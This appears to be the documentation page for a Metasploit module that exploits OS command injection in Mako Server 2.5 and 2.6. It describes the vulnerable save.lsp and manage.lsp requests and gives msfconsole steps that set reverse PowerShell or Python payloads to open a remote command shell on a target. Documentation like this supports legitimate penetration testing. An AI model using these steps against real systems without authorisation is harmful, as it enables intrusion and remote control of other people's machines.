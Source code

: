 ## Description

  This module exploits a vulnerability found in Mako Server v2.5, 2.6.
  It's possible to inject arbitrary OS commands in the Mako Server tutorial page through a PUT request to save.lsp. Attacker input will be saved on the victims machine and can be executed by sending a GET request to manage.lsp.

  Based on the public PoC found here: https://blogs.securiteam.com/index.php/archives/3391

## Vulnerable Application

  [Mako Server](https://makoserver.net) is an application framework for designing web and IoT applications.

  This module has been verified against the following Mako Server versions for Windows XP SP3, Windows 7 SP1 and Linux Ubuntu 16.04 LTS:
  - v2.5
  - v2.6

  Links:
  - [Windows x86 installer](https://makoserver.net/download/mako.windows.x86.exe)
  - [Windows download page](https://makoserver.net/download/windows)
  - [Linux x64 installer](https://makoserver.net/download/mako.linux-x64.tar.gz)
  - [Linux download page](https://makoserver.net/download/linux-x86)
  - [Documentation](https://makoserver.net/download/manual)

## References for vulnerability
  - https://blogs.securiteam.com/index.php/archives/3391
  - https://www.exploit-db.com/exploits/42683

## Verification Steps for Windows

  1. Run the installer "mako.windows.x86" on a Windows 7 SP1 (x86/x64) target (with Powershell for this example to work)
  2. After installer finishes, double click the "Mako-Demo" shortcut on the desktop
  4. Start msfconsole on host
  5. Do: ```use exploit/multi/http/makoserver_cmd_exec```
  6. Do: ```set RHOST <IP address of target system>```
  7. Do: ```set PAYLOAD cmd/windows/reverse_powershell```
  8. Do: ```set LHOST <IP address of host system>```
  9. Do: ```exploit```
  10. You should get a Windows command shell

## Verification Steps for Linux

  1. Extract the "mako.linux-x64.tar.gz" on a Linux Ubuntu 16.04 LTS (x64) target (with Python for this example to work)
  2. From inside the extracted folder, do ```./rundemo.sh```
  4. Start msfconsole on host
  5. Do: ```use exploit/multi/http/makoserver_cmd_exec```
  6. Do: ```set RHOST <IP address of target system>```
  7. Do: ```set PAYLOAD cmd/unix/python_reverse```
  8. Do: ```set LHOST <IP address of host system>```
  9. Do: ```exploit```
  10. You should get a Linux command shell (may need to wait ~30 seconds)

